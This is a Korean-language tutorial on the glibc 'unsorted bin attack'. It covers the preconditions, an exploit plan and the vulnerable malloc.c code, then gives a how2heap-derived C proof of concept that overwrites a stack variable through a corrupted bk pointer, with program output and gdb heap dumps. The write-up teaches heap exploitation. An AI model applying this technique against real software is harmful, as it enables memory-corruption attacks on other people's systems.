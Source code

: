 # **Unsorted bin attack**

## **Conditions**

* 공격자에 의해 Unsorted Chunk를 생성할 수 있어야 함
* 공격자에 의해 Free Chunk 영역에 값을 저장할 수 있어야 함
* 공격자에 의해 Free Chunk와 동일한 크기의 Heap 영역을 할당할 수 있어야 함

## **Exploit Plan**

1. 2개의 Small Chunk 생성
1. 첫번째 Heap 영역 해제
    * 헤당 Heap 영역은 Unsorted Bin에 등록
1. 해제된 첫번째 Heap의 bk영역에 공격 대상이 될 주소 값 덮어씀
1. 첫번째 Heap 영역과 동일한 크기의 Heap 영역 할당
    * 공격 대상 영역에 main_arnea 영역의 주소가 저장됨

## **vulnerability**

* 아래의 malloc.c 코드에 의해 취약성 발생
* unsorted_chunks() 함수는 bin[0]에 저장된 값을 리턴
* stack_var = &av->bins[0] (main_arena.bins[0])

```c
for (;; )
  {
    int iters = 0;
    while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
      {
        bck = victim->bk;
          ...
 
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;  // bck == victim->bk == &stack_var - 2 
        bck->fd = unsorted_chunks (av);  // (&stack_var - 2)->fd == stack_var
 
          ...
      }
```

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

* stack_var(0x7fffffffe4d8)

```
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7fffffffe4d8: 0
```

* 2개의 Heap 생성 후 1번째 Heap 영역 free
* 1개의 Heap 영역을 추가로 생성하는 이유는 1번째 chunk가 top chunk와의 병합을 막기 위해서다.

```
Now, we allocate first normal chunk on the heap at: 0x60010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
```

* free된 Heap 영역이 unsortedbin에 저장된다.
* bk pointer는 0x7ffff7dd1b78을 가리키고 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x603620 (size : 0x209e0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x603000 (size : 0x420)

gdb-peda$ x/4gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000421
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78

gdb-peda$ x/24gx 0x00007ffff7dd1b78 <- main_arena의 top
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000603620	0x0000000000000000
0x7ffff7dd1b88 <main_arena+104>:	0x0000000000603000	0x0000000000603000
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
```

```
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4c8
```

* 1번째 Heap 영역의 bk를 stack_var - 0x10으로 변조 후 1번째 크기와 같은 size로 malloc 할 경우 stack_var 변수에 main_arena의 top 영역이 저장된다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x420                Freed     0x7ffff7dd1b78    0x7fffffffe4c8
0x603420            0x420               0x200                Used                None              None

gdb-peda$ x/gx 0x7fffffffe4d8
0x7fffffffe4d8:	0x00007ffff7dd1b78
```

```
Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7fffffffe4d8: 0x7ffff7dd1b78
```

* victim 주소를 컨트롤 할 수 있지만, 쓰게되는 값은 &av->bins[0] 고정이다.
* 따라서 main_arena 영역에 값을 덮어쓰거나, global_max_fast의 값을 변경할 때 사용한다.

**References**  
<https://www.lazenca.net/display/TEC/unsorted+bin+attack>
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c>
